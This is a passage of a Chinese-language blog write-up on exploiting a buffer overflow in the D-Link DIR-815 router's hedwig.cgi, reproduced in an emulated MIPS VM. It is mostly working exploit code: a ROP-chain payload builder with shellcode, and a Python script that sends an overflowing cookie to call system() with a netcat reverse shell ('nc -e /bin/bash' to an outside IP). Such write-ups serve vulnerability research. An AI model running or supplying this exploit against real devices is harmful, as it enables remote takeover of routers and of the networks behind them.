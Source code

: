 ```
payload += p32(libc_base + gadget3)       # $(sp+0x24) = mipsrop.stackfinder() &amp;&amp; move s1,$(sp+0x18) &amp;&amp; jr $s4

payload += 'c' * 0x18 # mipsrop.stackfinder() 0x18B padding
payload += shellcode

f = open("exploit2",'wb+')
f.write(payload)
f.close()
```

生成的exploit2通过scp拷贝到mips虚拟机中并且`nano debug.sh`更改debug.sh运行得到shell。

[![](https://pup2y.github.io/2020/05/22/dir815-huan-chong-qu-yi-chu-lou-dong-zai-fen-xi/ncvlp31337.png)](https://pup2y.github.io/2020/05/22/dir815-huan-chong-qu-yi-chu-lou-dong-zai-fen-xi/ncvlp31337.png)

利用HTTP报文获取shell,其实现在mips虚拟机相当于一个开启了部分web服务的DIR815路由器，我们可以通过发送http报文获取shell。

利用system函数

```
#!/usr/bin/python
from pwn import *
context.endian = "little"
context.arch = "mips"

import requests
import sys

def get_payload(offset, libc_base, cmd):
    gadget1 = 0x45988
    gadget2 = 0x159cc
    system_addr_1 = 0x53200-1
    payload = 'A' * offset
    payload += p32(libc_base + system_addr_1) # s0
    payload += p32(libc_base + gadget2)       # s1
    payload += 'A' * 4                        # s2
    payload += 'A' * 4                        # s3
    payload += 'A' * 4                        # s4
    payload += 'A' * 4                           # s5
    payload += 'A' * 4                        # s6
    payload += 'A' * 4                        # s7
    payload += 'A' * 4                        # fp
    payload += p32(libc_base + gadget1)       # ra
    payload += 'B' * 0x10
    payload += cmd
    return payload

if __name__=="__main__":
    cmd = "nc -e /bin/bash 192.168.79.145 9999"
    cookie='uid=' + get_payload(973, 0x77f34000, cmd)
    header = `{`
        'Cookie'        : cookie,
        'Content-Type'  : 'application/x-www-form-urlencoded',
        'Content-Length': '100'
        `}`
    data = `{`'uid':'1234'`}`
    ip_port=sys.argv[1]
    url="http://"+ip_port+"/hedwig.cgi"
    r=requests.post(url=url,headers=header,data=data)
    print r.text
```
